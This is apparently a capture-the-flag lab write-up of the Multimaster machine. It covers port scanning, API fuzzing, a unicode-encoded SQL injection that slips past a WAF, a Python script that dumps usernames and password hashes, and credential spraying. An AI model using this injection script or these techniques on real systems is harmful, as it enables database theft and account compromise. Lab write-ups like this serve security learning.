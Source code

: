 # NOTE
Following ippsec's video to learn a bunch of new things :)
# Enumeration
IP: 10.10.10.179nmap -sC -sV -oA nmap/silo 10.10.10.82
## Nmap
```bash
sudo nmap -sC -sV -oA nmap/multimaster 10.10.10.179
Starting Nmap 7.93 ( https://nmap.org ) at 2022-11-12 08:16 EST
Nmap scan report for 10.10.10.179
Host is up (0.051s latency).
Not shown: 987 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
80/tcp   open  http          Microsoft IIS httpd 10.0
|_http-title: 403 - Forbidden: Access is denied.
|_http-server-header: Microsoft-IIS/10.0
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2022-11-12 13:23:53Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: MEGACORP.LOCAL, Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds  Windows Server 2016 Standard 14393 microsoft-ds (workgroup: MEGACORP)
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: MEGACORP.LOCAL, Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
3389/tcp open  ms-wbt-server Microsoft Terminal Services
|_ssl-date: 2022-11-12T13:24:34+00:00; +6m59s from scanner time.
| ssl-cert: Subject: commonName=MULTIMASTER.MEGACORP.LOCAL
| Not valid before: 2022-11-11T13:21:35
|_Not valid after:  2023-05-13T13:21:35
| rdp-ntlm-info: 
|   Target_Name: MEGACORP
|   NetBIOS_Domain_Name: MEGACORP
|   NetBIOS_Computer_Name: MULTIMASTER
|   DNS_Domain_Name: MEGACORP.LOCAL
|   DNS_Computer_Name: MULTIMASTER.MEGACORP.LOCAL
|   DNS_Tree_Name: MEGACORP.LOCAL
|   Product_Version: 10.0.14393
|_  System_Time: 2022-11-12T13:23:54+00:00
Service Info: Host: MULTIMASTER; OS: Windows; CPE: cpe:/o:microsoft:windows
```
Lots of ports open. Seems to be a domain controller.
A few hostnames
MEGACORP.LOCAL MULTIMASTER

## Port 80 enumeration
Can enumerate users via the colleague finder.
```list
sbauer
okent
ckane
kpage
shayna
james
rmartin
zac
jorden
alyx
ilee
nbourne
zpowers
aldom
minato
```

Checking for valid kerberos users.
none are valid.

Fuzz api for bad characters.
```bash
wfuzz -u http://10.10.10.179/api/getColleagues -w /usr/share/seclists/Fuzzing/special-chars.txt -d '{"name":"FUZZ"}' -c -s 1 -H "Content-Type: application/json;charset=utf-8"
```
There is a WAF which is blocking brute forcing. 
bad chars are \' and \# 
utf8 encoding seems to get around the blacklist.
```
{"name":"a\u27\u2d\u2d \u2d"} #a'-- -
```
check for a union injection with utf8 encoding to avoid a blacklist.
```
{"name":"a\u0027  u\u006eion sel\u0065ct 1,2,3,4,5\u002d\u002d \u002d"
} #a' union select 1,2,3,4,5-- -
```
a' union select 1,2,3,'string',5
This is messy to use so going to make a python script.
```python
import requests, json,cmd
url = 'http://10.10.10.179/api/getColleagues'
input = "a' union select 1,2,3,'HELLO',5-- -"
header = {"Content-Type":"application/json;charset=utf-8"}
  
def gen_payload(input):
	payload = ""
	for i in input:
		payload+=r"\u{:04x}".format(ord(i))
	return payload
	  
class exploit(cmd.Cmd):
	prompt = "> "
	  
	def default(self,line):
		payload = gen_payload(line)
		data = '{"name":"'+payload+'"}'
		r = requests.post(url,data=data,headers = header)
		print(r.text)
	def do_union(self,line):
		payload = "a' union select 1,2,3,"+line+",5-- -"
		data = '{"name":"'+gen_payload(payload)+'"}'
		r = requests.post(url,data=data,headers = header)
		r = json.loads(r.text)
		print(r[0]['email'])
  
exploit().cmdloop()
```
Now enumerate the sql database
```python_script
> union db_name()
Hub_DB
> union (select string_agg(name,',') from hub_db..sysobjects where xtype = 'U')
Colleagues,Logins
> union (select string_agg(username,',') from Logins)
sbauer,okent,ckane,kpage,shayna,james,cyork,rmartin,zac,jorden,alyx,ilee,nbourne,zpowers,aldom,minatotw,egre55
> union (select string_agg(password,',') from Logins)
```
The output is stored in password.hashes
Guessing sha-384 which is wrong.
Using all hash formats with 384.
One works and cracks a few hashes.

Check with crackmapexec.
```bash
crackmapexec smb 10.10.10.179 users.lst passwords.lst
```
no hits.
